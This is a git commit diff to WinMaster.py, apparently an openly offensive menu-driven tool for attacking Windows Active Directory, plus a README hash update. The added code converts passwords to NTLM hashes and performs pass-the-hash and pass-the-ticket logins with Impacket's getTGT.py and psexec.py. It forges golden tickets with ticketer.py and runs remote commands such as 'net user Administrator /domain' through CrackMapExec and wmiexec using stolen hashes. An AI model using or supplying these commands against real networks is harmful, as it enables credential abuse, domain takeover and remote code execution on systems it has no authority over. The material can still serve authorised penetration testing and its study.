

Updates

diff --git a/WinMaster.py b/WinMaster.py
@@ -18,6 +18,8 @@ import os
 import sys
 import shutil
 import os.path
+import hashlib
+import binascii
 import datetime
 import fileinput
 import linecache
@@ -86,7 +88,7 @@ def gettime(value):
    return variable
 
 def command(command):
-   print colored("Using Command: " + command + "\n", 'white')
+#   print colored("Using Command: " + command + "\n", 'white')	# COMMENT OUT TO STOP DEBUGGING
    os.system(command)
    raw_input("\nPress ENTER to continue...")
    return
@@ -259,13 +261,13 @@ def display():
 
 # ----------------------------------------------------------------------------------------------------------------------------------------------------
 
-   print u'\u2551' + "(0) Save/Exit          (10) Re/Set WIN COMMAND (20) Get Arch (30) Enum4Linux     (40) eMail Addresses (50) Domain Dump  (60) FTP    " + u'\u2551'
-   print u'\u2551' + "(1) Re/Set DNS SERVER  (11) Re/Set CLOCK TIME  (21) Net View (31) WinDap Search  (41) Kerb Filter     (51) BLOODHOUND   (61) SSH    " + u'\u2551'
-   print u'\u2551' + "(2) Re/Set REMOTE IP   (12) Re/Set DIRECTORY   (22) Services (32) Lookup Sids    (42) Kerb Bruteforce (52) ACLPWN       (62) TelNet " + u'\u2551'
+   print u'\u2551' + "(0) Save/Exit          (10) Re/Set WIN COMMAND (20) Get Arch (30) Enum4Linux     (40) KerbMailAddress (50) Domain Dump  (60) FTP    " + u'\u2551'
+   print u'\u2551' + "(1) Re/Set DNS SERVER  (11) Re/Set CLOCK TIME  (21) Net View (31) WinDap Search  (41) Kerb Filter     (51) BloodHound   (61) SSH    " + u'\u2551'
+   print u'\u2551' + "(2) Re/Set REMOTE IP   (12) Re/Set DIRECTORY   (22) Services (32) Lookup Sids    (42) Kerb Bruteforce (52) ACL Pawn     (62) TelNet " + u'\u2551'
    print u'\u2551' + "(3) Re/Set USERNAME    (13) Check Connection   (23) AtExec   (33) SamDump Users  (43) Kerb Roasting   (53) Secrets Dump (63) NetCat " + u'\u2551'
    print u'\u2551' + "(4) Re/Set PASSWORD    (14) Check DNS Records  (24) DcomExec (34) RpcDump        (44) Kerb ASREPRoast (54) CrackMapExec (64) WinRem " + u'\u2551'
-   print u'\u2551' + "(5) Re/Set NTLM HASH   (15) Check DNS SERVER   (25) PsExec   (35) REGistery      (45)                 (55) WmiExec HASH (65)        " + u'\u2551'
-   print u'\u2551' + "(6) Re/Set DOMAIN NAME (16) Nmap O/S + Skew    (26) SmbExec  (36) Smb Client     (46) Pass the HASH   (56)              (66)        " + u'\u2551'
+   print u'\u2551' + "(5) Re/Set NTLM HASH   (15) Check DNS SERVER   (25) PsExec   (35) REGistery      (45) PASSWORD2HASH   (55) WmiExec HASH (65)        " + u'\u2551'
+   print u'\u2551' + "(6) Re/Set DOMAIN NAME (16) Nmap O/S + Skew    (26) SmbExec  (36) Smb Client     (46) Pass the Hash   (56)              (66)        " + u'\u2551'
    print u'\u2551' + "(7) Re/Set DOMAIN SID  (17) Nmap Subdomains    (27) WmiExec  (37) SmbMap SHARE   (47) Pass the Ticket (57)              (67)        " + u'\u2551'
    print u'\u2551' + "(8) Re/Set SHARE NAME  (18) Nmap Intense TCP   (28) IfMap    (38) SmbMount SHARE (48) Silver Ticket   (58)              (68)        " + u'\u2551'
    print u'\u2551' + "(9) Re/Set IMPERSONATE (19) Nmap Slow and Full (29) OpDump   (39) Rpc Client     (49) Golden Ticket   (59)              (69)        " + u'\u2551'
@@ -1248,12 +1250,15 @@ while True:
 # AUTHOR  : Terence Broadbent                                                    
 # CONTRACT: GitHub
 # Version : 1.0
-# Details : Menu option selected - getTGT.py DOMAIN/USER:PASSWORD
+# Details : Menu option selected - print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
    if selection == '45':
-      exit(1) 
+      if PAS[:1] != "\"":
+         FRST = binascii.hexlify(hashlib.new("md4", PAS.rstrip(" ").encode("utf-16le")).digest())
+      else:
+         command("echo 'Password not found...'")
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
@@ -1265,6 +1270,7 @@ while True:
 # -------------------------------------------------------------------------------------
 
    if selection == '46':
+      print "\n[-] Trying user " + USR.rstrip(" ") + "...\n"
       if PAS[:1] != "\"":
          os.system(PRO + "getTGT.py " + HST.rstrip(" ") +  "/" + USR.rstrip(" ") + ":" + PAS.rstrip(" "))
          os.system("export KRB5CCNAME=" + USR.rstrip(" ") + ".ccache")
@@ -1275,9 +1281,22 @@ while True:
          else:
             os.command("echo 'User password or hash required...'")  
       if os.path.exists(USR.rstrip(" ") + ".ccache"):
-         command(PRO + "psexec.py " + HST.rstrip(" ") + "/" + USR.rstrip(" ") + "@" + HST.rstrip(" ") + " -k -no-pass")
+         os.system(PRO + "psexec.py " + HST.rstrip(" ") + "/" + USR.rstrip(" ") + "@" + HST.rstrip(" ") + " -k -no-pass")
       else:
-          command("echo 'TGT was not generated...'")
+          os.system("echo 'TGT was not generated...'")
+
+      print "\n[-] Trying user " + POR.rstrip(" ") + " (IMPERSONATE)...\n"
+      HASH = " "
+      for x in range (0, MAX):
+         if US[x].rstrip(" ") == POR.rstrip(" "):    # IMPERSONATE VALUE
+            HASH = PA[x].rstrip(" ")                 # GET HASH
+      if HASH[:1] != " ":
+         os.system(PRO + "getTGT.py " + HST.rstrip(" ") +  "/" + POR.rstrip(" ") + " -hashes :" + HASH)
+         os.system("export KRB5CCNAME=" + POR.rstrip(" ") + ".ccache")
+         if os.path.exists(POR.rstrip(" ") + ".ccache"):
+            command(PRO + "psexec.py " + HST.rstrip(" ") + "/" + USR.rstrip(" ") + "@" + HST.rstrip(" ") + " -k -no-pass")
+         else:
+            command("echo 'TGT was not generated...'")
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
@@ -1311,7 +1330,30 @@ while True:
 # -------------------------------------------------------------------------------------
 
    if selection == '49':
-      command("echo 'Golden Ticket has not been implemented yet...'")
+      print "\n[-] Trying user " + USR.rstrip(" ") + "...\n"
+      if (FRST[:1] != "") & (WGRP[:1] != ""):
+         os.system(PRO + "ticketer.py -nthash " + FRST.rstrip("\n") + " -domain-sid " + WGRP.rstrip("\n") + " -domain " + HST.rstrip(" ") + " " + USR.rstrip(" "))
+         os.system("export KRB5CCNAME=" + USR.rstrip(" ") + ".ccache")
+         
+      else:
+         os.system("echo 'Hash or Domain-SID not found...'")
+      if os.path.exists(USR.rstrip(" ") + ".ccache"):
+         os.system(PRO + "psexec.py " + HST.rstrip(" ") + "/" + USR.rstrip(" ") + "@" + HST.rstrip(" ") + " -k -no-pass")
+      else:
+          command("echo 'Golden TGT was not generated...'")
+
+      print "\n[-] Trying user " + POR.rstrip(" ") + " (IMPERSONATE)...\n"
+      HASH = " "
+      for x in range (0, MAX):
+         if US[x].rstrip(" ") == POR.rstrip(" "):    # IMPERSONATE VALUE
+            HASH = PA[x].rstrip(" ")                 # GET HASH
+      if HASH[:1] != " ":
+         os.system(PRO + "ticketer.py -nthash " + HASH.rstrip("\n") + " -domain-sid " + WGRP.rstrip("\n") + " -domain " + HST.rstrip(" ") + " " + POR.rstrip(" "))
+         os.system("export KRB5CCNAME=" + POR.rstrip(" ") + ".ccache")
+      if os.path.exists(POR.rstrip(" ") + ".ccache"):
+         command(PRO + "psexec.py " + HST.rstrip(" ") + "/" + POR.rstrip(" ") + "@" + HST.rstrip(" ") + " -k -no-pass")
+      else:
+         command("echo 'Golden TGT was not generated...'")
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
@@ -1394,14 +1436,20 @@ while True:
 # -------------------------------------------------------------------------------------
 
    if selection =='54':
- #     command("crackmapexec -u users.txt -p " + PAS.rstrip(" ") + " --shares " + TIP.rstrip(" "))
-      for x in range (0, MAX):
-         if US[x].rstrip(" ") == POR.rstrip(" "):    # IMPERSONATE VALUE
-            HASH = PA[x].rstrip(" ")                 # GET HASH
-      if HASH[:1] != " ":
-         command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + POR.rstrip(" ") + " -H " + HASH + " -x 'net user Administrator /domain' --exec-method smbexec")
+      if (USR[:1] != "\"") & (PAS[:1] != "\""):
+         print "\n[-]Trying user " + USR.rstrip(" ") + " with password " + PAS.rstrip(" ") + "...\n"
+         os.system("crackmapexec -u " + USR.rstrip(" ") + " -p " + PAS.rstrip(" ") + " --shares " + TIP.rstrip(" ")) 
+         print "\n[-]Trying user " + POR.rstrip(" ") + " (IMPERSONATE) with their associated NTLM HASH...\n"
+         HASH = " "
+         for x in range (0, MAX):
+            if US[x].rstrip(" ") == POR.rstrip(" "):    # IMPERSONATE VALUE
+               HASH = PA[x].rstrip(" ")                 # GET HASH
+         if HASH[:1] != " ":
+            command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + POR.rstrip(" ") + " -H " + HASH + " -x 'net user Administrator /domain' --exec-method smbexec")
+         else:
+            command("echo 'No hash value was found for user " + POR.rstrip(" ") + "...'")
       else:
-         command("echo 'No hash value was found for user " + POR.rstrip(" ") + "...'")
+         command("echo 'Username or password not found...'")
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
@@ -1412,10 +1460,12 @@ while True:
 # -------------------------------------------------------------------------------------
 
    if selection =='55':
+      print "\n[-]Trying user " + USR.rstrip(" ") + " with NTLM HASH " + FRST.rstrip("\n") + "...\n"
+      os.system(PRO + "wmiexec.py -hashes :" + FRST.rstrip("\n") + " " + USR.rstrip(" ") + "@" + TIP.rstrip(" "))
+      print "\n[-]Trying user " + POR.rstrip(" ") + " (IMPERSONATE) with their associated NTLM HASH...\n"
       for x in range (0,MAX):
          if US[x].rstrip(" ") == POR.rstrip(" "):
             HASH = PA[x].rstrip(" ")
-
       command(PRO + "wmiexec.py -hashes :" + HASH + " " + POR.rstrip(" ") + "@" + TIP.rstrip(" "))
 
 # ------------------------------------------------------------------------------------- 

diff --git a/README.md b/README.md
@@ -5,7 +5,7 @@ Usage: python WinMaster.py neo4j password
 
 | LANGUAGE  | FILENAME         | MD5 Hash                         |
 |------     |------            | -------                          |
-| python    | WinMaster.py     | 72bd98d4e9556ca34fe90afdda0b2fd0 |
+| python    | WinMaster.py     | 8bd1c0a3711ae89f08439145b0d82cdc |
 | text file | config.txt       | 517ca6d2b592ac7aefeaf1e03e890ee6 |
 | bash file | shell.txt        | bace3193abb905876c00e082fc94d550 |
 
